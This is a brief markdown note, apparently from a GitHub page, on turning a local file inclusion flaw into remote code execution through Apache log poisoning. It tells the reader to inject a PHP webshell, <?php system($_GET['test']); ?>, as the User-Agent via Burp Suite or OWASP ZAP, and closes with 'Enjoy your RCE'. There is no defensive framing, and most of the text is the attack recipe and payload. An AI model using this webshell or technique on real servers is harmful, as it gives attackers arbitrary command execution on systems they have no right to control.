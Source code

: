 ### Log Poisoning occurs via LFI attack.

### If you can access the file /var/log/apache2/access.log, you can inject a webshell as the User-Agent by using web proxy tools like Burpsuite and OWASP ZAP:

#### <?php system($_GET['test']); ?>

#### Enjoy your RCE
